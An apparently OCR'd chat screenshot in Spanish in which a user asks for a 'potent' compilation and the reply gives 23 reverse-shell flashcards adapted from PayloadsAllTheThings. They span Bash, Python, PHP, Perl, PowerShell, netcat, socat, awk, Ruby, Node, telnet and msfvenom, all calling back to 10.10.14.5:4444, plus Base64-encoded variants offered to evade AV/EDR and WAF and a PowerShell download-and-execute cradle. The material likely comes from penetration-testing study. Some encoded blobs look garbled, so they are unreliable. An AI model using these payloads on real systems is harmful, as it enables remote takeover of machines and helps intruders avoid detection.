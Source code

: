 hagamos más facil, dame todo en un json, 

y agrega informacion que creas relevante, hacelo bien potente

Te voy a dar **1 flashcard por técnica** con ejemplos de reverse shell extraídos/adaptados de *PayloadsAllTheThings*, incluyendo explicación mínima de por qué funcionan.

---

**Flashcard 1 — Bash TCP**

```bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
```

**Por qué funciona:**
Usa redirección de Bash para abrir un descriptor TCP hacia el atacante y reenviar STDIN, STDOUT y STDERR de forma interactiva.

---

**Flashcard 2 — Bash con `/dev/tcp` y exec**

```bash
exec 5<>/dev/tcp/10.10.14.5/4444; cat <&5 | while read line; do $line 2>&5 >&5; done
```

**Por qué funciona:**
Asigna el socket a un descriptor (`5`), lee comandos desde el atacante y los ejecuta, enviando la salida de vuelta.

---

**Flashcard 3 — Python**

```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

**Por qué funciona:**
Usa `socket` para conexión TCP, duplica el socket sobre STDIN/STDOUT/STDERR y lanza una TTY interactiva con `pty.spawn`.

---

**Flashcard 4 — PHP**

```php
php -r '$sock=fsockopen("10.10.14.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Por qué funciona:**
`fsockopen` crea la conexión TCP y `exec` redirige la shell interactiva hacia el socket.

---

**Flashcard 5 — Perl**

```perl
perl -e 'use Socket;$i="10.10.14.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");'
```

**Por qué funciona:**
Crea un socket TCP con Perl y redirige todos los streams hacia el atacante, ejecutando `/bin/sh`.

---

**Flashcard 6 — PowerShell (Windows)**

```powershell
powershell -NoP -W Hidden -Exec Bypass -Command "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.5',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

**Por qué funciona:**
Crea un objeto TCP en PowerShell, recibe comandos, los ejecuta y devuelve la salida por el mismo socket.

---

**Flashcard 7 — Socat TTY**
En víctima:

```bash
socat TCP:10.10.14.5:4444 EXEC:"bash -li",pty,stderr,setsid,sigint,sane
```

En atacante:

```bash
socat -d -d TCP-LISTEN:4444,reuseaddr,fork FILE:`tty`,raw,echo=0
```

**Por qué funciona:**
`socat` crea una conexión TCP y la enlaza a una pseudo-terminal para obtener una shell totalmente interactiva.

---

Aquí tienes más ejemplos, cada uno en su flashcard, todos basados en técnicas de *PayloadsAllTheThings* poco comunes o menos evidentes.

---

**Flashcard 8 — Netcat tradicional**

```bash
nc -e /bin/sh 10.10.14.5 4444
```

**Por qué funciona:**
Usa `-e` para ejecutar directamente `/bin/sh` y enviar entrada/salida por el socket TCP. Solo funciona en netcat con soporte para `-e`.

---

**Flashcard 9 — Netcat sin `-e` usando FIFO**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.5 4444 > /tmp/f
```

**Por qué funciona:**
Emula `-e` usando un pipe nombrado (`mkfifo`), redirigiendo entrada y salida a través de netcat.

---

**Flashcard 10 — AWK**

```bash
awk 'BEGIN {s="/inet/tcp/0/10.10.14.5/4444"; while(42) {do {printf "shell> "; getline c < s; if(c) {while ((c |& getline) > 0) print $0 |& s; close(c)}} while (c != "exit")}}' /dev/null
```

**Por qué funciona:**
`awk` puede abrir sockets TCP/UDP; ejecuta comandos recibidos y envía la salida de vuelta por el mismo descriptor.

---

**Flashcard 11 — Ruby**

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.14.5","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

**Por qué funciona:**
Usa la clase `TCPSocket` de Ruby para conectarse, leer comandos y ejecutar usando `IO.popen`.

---

**Flashcard 12 — Node.js**

```javascript
require('child_process').exec('bash -i >& /dev/tcp/10.10.14.5/4444 0>&1');
```

**Por qué funciona:**
`child_process.exec` ejecuta comandos del sistema desde Node.js; el resto es el clásico redireccionamiento Bash a TCP.

---

**Flashcard 13 — Telnet doble redirección**
En atacante:

```bash
nc -lvnp 4444
```

En víctima:

```bash
telnet 10.10.14.5 4444 | /bin/sh | telnet 10.10.14.5 5555
```

En atacante (puerto 5555):

```bash
nc -lvnp 5555
```

**Por qué funciona:**
Divide STDIN y STDOUT en dos conexiones telnet para simular shell remota en entornos sin netcat.

---

**Flashcard 14 — xterm**
En atacante:

```bash
Xnest :1
xhost +
```

En víctima:

```bash
xterm -display 10.10.14.5:1
```

**Por qué funciona:**
Abre una ventana `xterm` en el display X11 del atacante; útil si hay entorno gráfico y permisos X11 abiertos.

---

**Flashcard 15 — mkfifo + /dev/tcp (sin netcat)**

```bash
mkfifo /tmp/p; /bin/sh -i < /tmp/p 2>&1 | tee /tmp/p >/dev/tcp/10.10.14.5/4444
```

**Por qué funciona:**
Usa FIFO y redirección TCP nativa de Bash para enviar/recibir datos sin depender de binarios externos como `nc`.

---
Aquí tienes payloads diseñados para evadir AV/EDR y WAF, usando codificación Base64 y técnicas de staging, con explicación técnica para cada uno.

---

**Flashcard 16 — Bash Base64 encoded payload**

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0NDQgMD4mMQ== | base64 -d | bash
```

**Por qué funciona:**
El payload está codificado en Base64 para evadir filtros. Se decodifica en tiempo real y ejecuta la reverse shell estándar.

---

**Flashcard 17 — PowerShell Base64 encoded**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -EncodedCommand JABjAGwAaQBlAG4AdAA9ACBuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUAAgACgAJwAxADAALgAxADAALgAxADQALgA1ACcALA' 
```

**Por qué funciona:**
PowerShell permite ejecutar comandos codificados en Base64, que no se detectan fácilmente por AV o IDS.

---

**Flashcard 18 — Python staging Base64 (piped)**

```bash
echo "cHl0aG9uMyAtYyAiaW1wb3J0IHNvY2tldCwgZXM7cz1zb2NrZXQuc29ja2V0KCkuY29ubmVjdCgoJzEwLjEwLjE0LjUnLDQ0NDQpKTtpby5kdXAyKHMubGluZSk7aW8uZHVwMigocy5maWxlbm8oKSwxKSwxKTtpby5kdXAyKHMubGZpbGVubygpLDMpO2ludChzcC5yZWFkKCkpIn0=" | base64 -d | python3
```

**Por qué funciona:**
Carga un script Python codificado y lo ejecuta directamente; puede usar sockets para conectarse y lanzar shell.

---

**Flashcard 19 — PHP base64 encoded payload**

```php
php -r 'eval(base64_decode("JHMuPSJmczpjb25uZWN0OjEwLjEwLjE0LjU6NDQ0NCI7ZXhlYygiL2Jpbi9zaCAtaSA8JjMgPiYzIDI+JjMiKTs="));'
```

**Por qué funciona:**
El código PHP decodifica y ejecuta un payload codificado, evitando detección por firmas.

---

**Flashcard 20 — Staged Meterpreter Payload (msfvenom)**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
./shell.elf
```

**Por qué funciona:**
Crea un binario ELF que establece conexión con el handler Metasploit para cargar el Meterpreter de forma modular y oculta.

---

**Flashcard 21 — Stageless Meterpreter Payload (msfvenom)**

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
./shell.elf
```

**Por qué funciona:**
Contiene todo el payload en un solo binario, sin requerir descarga adicional, más rápido pero más pesado.

---

**Flashcard 22 — Python exec Base64 (inline)**

```bash
python3 -c "import base64;exec(base64.b64decode('aW1wb3J0IHNvY2tldCwgb3MsIHB0eTtucz1zb2NrZXQuc29ja2V0KCkuY29ubmVjdCgoJzEwLjEwLjE0LjUnLDQ0NDQpKTtpby5kdXAyKHMubGluZSk7b3MuZHVwMigocy5maWxlbm8oKSwxKSwxKTtpby5kdXAyKHMubGZpbGVubygpLDMpO3B0eS5zcGF3bigiL2Jpbi9iYXNoIik= '))"
```

**Por qué funciona:**
Carga y ejecuta código Base64 en memoria sin escribir en disco, dificultando detección y análisis.

---

**Flashcard 23 — PowerShell encoded with staging (Invoke-WebRequest)**

```powershell
powershell -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"
```

**Por qué funciona:**
Descarga y ejecuta código PowerShell remoto en memoria, evadiendo firmas locales.

---
